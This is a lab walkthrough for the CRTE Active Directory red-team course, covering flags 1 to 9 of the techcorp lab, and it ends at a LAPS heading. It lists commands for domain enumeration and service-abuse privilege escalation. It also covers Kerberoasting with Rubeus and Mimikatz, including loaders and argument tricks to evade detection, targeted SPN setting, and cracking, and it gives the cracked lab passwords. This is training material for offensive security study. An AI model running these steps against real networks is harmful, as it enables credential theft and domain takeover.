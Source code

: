 # CRTE Lab

## Flag 1,2 - Domain Enumeration

Enumerate following for the us.techcorp.local domain:

* Users&#x20;
* &#x20;Computers&#x20;
* &#x20;Domain Administrators&#x20;
* &#x20;Enterprise Administrators&#x20;
* &#x20;Kerberos Policy

Use BloodHound to do it or ad module

## Flag 3,4 - Trust Enumeration

To list only the external trusts using PowerView:

{% code overflow="wrap" %}
```powershell
Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine.png" alt=""><figcaption></figcaption></figure>

The trust is bidirectional, so enumerate the trust that eu.local has

```powershell
Get-ForestTrust -Forest eu.local
```

<figure><img src="../.gitbook/assets/immagine (1).png" alt=""><figcaption></figcaption></figure>

## FLAG 5/6/7 - Name of the service for privesc on local machine

* Exploit a service on studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentuserx has local administrative access due to group membership.

Use PowerUp to find a privesc

```powershell
Invoke-AllChecks
```

<figure><img src="../.gitbook/assets/immagine (2).png" alt=""><figcaption></figcaption></figure>

And exploit the service

```powershell
Invoke-ServiceAbuse -Name 'ALG' -UserName us\studentuser64
```

Now log off and log on to gain admin privileges

Import PowerView to find computer wjere we have access as Local Admin

```powershell
Find-LocalAdminAccess
```

Nothing but you can see from bloodhound that the group studentuser is enrolled in the Managers group

Managers group has generic all on MachineAdmins Group, so with AdModule we can add ourself to this group.

```powershell
Add-ADGroupMember -Identity MachineAdmins -Members studentuser64 -Verbose
```

<figure><img src="../.gitbook/assets/immagine (3).png" alt=""><figcaption></figcaption></figure>

Now relogin to update the permissions and try to access to us-mgmt

```powershell
winrs -r:us-mgmt whoami
```

<figure><img src="../.gitbook/assets/immagine (4).png" alt=""><figcaption></figcaption></figure>

By enumerating the groups which we belongs we can se that in the mgmt OU we are Administrators.

## Flag 8 - SevicePrincipalName of the user serviceaccount that we Kerberoasted

Using PowerView see if there are any SPN

{% code overflow="wrap" %}
```powershell
Get-DomainUser –SPN
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (5).png" alt=""><figcaption></figcaption></figure>

the kerberoast attack can be done in wto ways

#### Rubeus and John

First use Argspli.bat to avoid detection in the cmd

<figure><img src="../.gitbook/assets/immagine (6).png" alt=""><figcaption></figcaption></figure>

Now load Rubeus with the Loader to avoid detection and launch an attack against ServiceAccount

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:serviceaccount /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (7).png" alt=""><figcaption></figcaption></figure>

Now crackit with john. The password is _Password123_

#### KerberosRequestorSecurityToken.NET class from PowerShell, Mimikatz and tgsrepcrack.py

We can also use the KerberosRequestorSecurityToken .NET class from PowerShell to request a ticket.

{% code overflow="wrap" %}
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (8).png" alt=""><figcaption></figcaption></figure>

Use Mimikatz to extract the ticket

```powershell
Invoke-Mimi -Command '"kerberos::list /export"'
```

<figure><img src="../.gitbook/assets/immagine (9).png" alt=""><figcaption></figcaption></figure>

and crack it

{% code overflow="wrap" %}
```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-60210000-studentuser64@USSvc~serviceaccount-US.TECHCORP.LOCAL.kirbi
```
{% endcode %}

## Flag 9 - Password for supportXuser that we Kerberoasted&#x20;

With PowerView see if we have any other interesting ACL with studentusers group:

{% code overflow="wrap" %}
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (10).png" alt=""><figcaption></figcaption></figure>

Since studentuser64 has GenericAll rights on the support64user, let’s force set a SPN on it. Using ActiveDirectory module:

{% tabs %}
{% tab title="Powerview" %}
{% code overflow="wrap" %}
```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'} -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="Ad-Module" %}
{% code overflow="wrap" %}
```
Set-ADUser -Identity Support64User -ServicePrincipalNames @{Add='us/myspn64'} -Verbose
```
{% endcode %}
{% endtab %}
{% endtabs %}

Check if SPN is set up now

{% code overflow="wrap" %}
```powershell
Get-ADUser -Identity support64user -Properties ServicePrincipalName | select ServicePrincipalName
```
{% endcode %}

{% hint style="info" %}
If nothing showed might work the same
{% endhint %}

Now crack it. The password is _Desk@123_

## Flag 10 -  LAPS

